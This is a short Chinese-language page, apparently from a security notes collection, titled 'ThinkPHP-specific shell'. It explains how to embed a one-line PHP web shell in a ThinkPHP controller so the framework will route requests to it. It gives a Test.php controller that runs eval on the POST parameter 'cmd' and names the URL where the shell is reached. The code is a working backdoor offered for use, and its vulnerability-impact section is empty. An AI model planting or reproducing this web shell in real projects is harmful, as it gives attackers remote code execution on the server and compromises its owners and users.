 ```yaml
---
title: "Thinkphp专用shell"
id: zhfly3142
---
```


# Thinkphp 专用shell

## 一、漏洞简介

基于thinkphp框架的一句话写法 thinkphp框架使用入口文件调用控制器，直接写一句话可能会有解析问题导致无法执行指令，研究了一下把一句话套入框架控制器的方法，分享给大家参考，

## 二、漏洞影响

## 三、复现过程

在index的控制器文件夹下建立Test.php文件，代码如下:

```
<?php 
namespace app\index\controller; 

class Test

{

```
public function test() 

{ 

eval($_POST["cmd"]); 

} 
```

} 
```

一句话的地址就是http://www.0-sec.org/index/test/test